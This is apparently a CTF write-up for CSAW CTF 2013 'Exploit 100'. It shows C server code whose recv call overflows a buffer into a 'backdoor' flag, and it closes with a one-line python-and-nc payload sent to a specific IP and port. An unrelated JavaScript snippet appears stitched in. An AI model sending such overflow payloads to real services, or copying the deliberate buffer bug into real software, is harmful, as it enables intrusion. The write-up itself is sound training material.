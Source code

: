 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 100"
---
```


Source for exploit 100 were provided:

Here's an example:

```
function test() {
  console.log("notice the blank line before this function?");
}
```

``` C
void handle(int newsock) {
    int backdoor = 0;
	char buffer[1016];
	memset(buffer, 0, 1016);

	send(newsock, "Welcome to CSAW CTF.", 21, 0);
	recv(newsock, buffer, 1020, 0);
	buffer[1015] = 0;

	if ( backdoor ) {
		fd = fopen("./key", "r");
		fscanf(fd, "%s\n", buffer);
		send(newsock, buffer, 512, 0);
	}
	close(newsock);
}
```

To print the key, we need to set `backdoor` to something else than `0`. This can be done by a simple buffer overflow. the `recv` function read 1020 bytes into a buffer of 1016 bytes. The 4 extra bytes are going to overwrite the `backdoor`'s value.

To get the key:
`python -c "print '\xff' * 1020" | nc 128.238.66.212 31337`

